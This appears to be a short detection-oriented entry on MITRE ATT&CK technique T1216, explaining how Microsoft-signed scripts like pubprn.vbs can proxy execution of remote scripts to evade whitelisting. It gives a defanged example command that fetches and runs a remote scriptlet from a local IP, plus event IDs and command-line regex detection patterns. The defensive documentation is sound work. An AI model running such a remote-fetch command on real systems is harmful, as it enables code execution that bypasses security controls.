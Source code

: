 # T1216: Signed Script Proxy Execution

Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. Example command: 
```cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png```

There are several other signed scripts that may be used in a similar manner.

## Detection 
```
Sysmon Event ID = 1
Windows Security Event ID = 4688
process_command_line = ["cscript.*script\:http\[\:\]\/\/", "wscript.*script\:http\[\:\]\/\/", "certutil.*script\:http\[\:\]\/\/", "*jjs*-scripting*"]
```
